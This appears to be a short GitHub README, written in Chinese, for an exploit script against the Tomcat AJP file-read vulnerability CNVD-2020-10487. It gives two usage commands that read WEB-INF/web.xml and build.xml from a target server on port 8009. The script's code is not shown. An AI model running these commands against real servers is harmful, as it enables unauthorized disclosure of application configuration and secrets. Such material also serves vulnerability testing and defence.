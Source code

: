 # CNVD-2020-10487-Tomcat-Ajp-lfi
Tomcat-Ajp协议文件读取漏洞

![image](https://raw.githubusercontent.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/master/QQ截图20200220231832.png)

读取WEB-INF/web.xml文件:
python CNVD-2020-10487-Tomcat-Ajp-lfi.py 192.168.1.2 -p 8009 -f WEB-INF/web.xml

读取ROOT目录下的build.xml文件内容:
python CNVD-2020-10487-Tomcat-Ajp-lfi.py 192.168.1.2 -p 8009 -f build.xml

